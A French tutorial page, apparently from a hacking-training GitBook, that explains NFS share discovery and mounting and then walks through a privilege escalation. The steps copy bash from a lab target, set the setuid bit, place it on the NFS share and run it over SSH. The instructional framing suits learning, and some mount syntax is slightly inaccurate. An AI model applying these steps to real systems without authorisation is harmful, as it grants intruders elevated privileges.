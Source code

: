 # NFS

### NFS (Network File System)

NFS (Network File System) est un protocole utilisé pour partager des fichiers et des répertoires entre différents systèmes sur un réseau. Voici un guide complet pour interagir avec des partages NFS.

***

### **1. Découvrir les Partages NFS Disponibles**

Pour lister les partages disponibles sur une machine distante :

```bash
/usr/sbin/showmount -e [IP machine distante]
```

**Explication :**\
`showmount -e` affiche les répertoires exportés (partages NFS) disponibles sur la machine distante.

***

### **2. Créer un Point de Montage**

Avant de monter un partage NFS, créez un répertoire local qui servira de point de montage :

```bash
mkdir /tmp/mount
```

**Explication :**\
Ce répertoire sera utilisé pour accéder au contenu partagé par le serveur NFS.

***

### **3. Monter un Partage NFS**

Pour connecter un partage NFS à votre point de montage :

```bash
sudo mount -t nfs [IP machine distante]:[répertoire partagé] /tmp/mount -nolock
```

**Explication :**

* `-t nfs` : Indique que le système de fichiers est de type NFS.
* `[IP machine distante]:[répertoire partagé]` : Spécifie l’adresse IP du serveur et le répertoire partagé.
* `/tmp/mount` : Point de montage local sur votre machine.
* `-nolock` : Désactive le verrouillage des fichiers, utile pour éviter certains conflits avec NFS.

***

### **4. Transférer des Fichiers via SCP**

Pour récupérer un fichier (comme un exécutable `bash`) depuis une machine distante :

```bash
scp -i id_rsa [utilisateur]@[IP distante]:/chemin/vers/fichier ~/Téléchargements/
```

**Exemple :**

```bash
scp -i id_rsa cappucino@10.10.72.89:/bin/bash ~/Downloads/bash
```

**Explication :**

* `scp` : Utilitaire de copie sécurisée.
* `-i id_rsa` : Utilise une clé privée pour s’authentifier.
* `[utilisateur]@[IP distante]:[chemin fichier]` : Spécifie la machine distante, l’utilisateur, et le fichier à récupérer.
* `~/Téléchargements/` : Chemin local où le fichier sera sauvegardé.

***

### **5. Modifier les Droits sur le Fichier**

Pour définir le bit `suid` sur un fichier (ce qui permet d'exécuter le fichier avec les privilèges de son propriétaire) :

```bash
chmod +s bash
```

**Explication :**

* `+s` : Ajoute le bit `setuid`, permettant au fichier d’hériter des privilèges de l’utilisateur propriétaire.

***

### **6. Déplacer le Fichier sur le Partage NFS**

Déplacez le fichier modifié vers le partage monté :

```bash
mv ~/Downloads/bash /tmp/mount/[utilisateur]
```

***

### **7. Exécuter le Fichier sur la Machine Cible**

Reconnectez-vous à la machine distante en SSH et exécutez le fichier transféré :

```bash
ssh -i id_rsa [utilisateur]@[IP distante]
./bash
```

**Explication :**

* `ssh` : Accès à distance à la machine.
* `./bash` : Lance l’exécutable `bash` sur la machine distante avec les droits définis.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
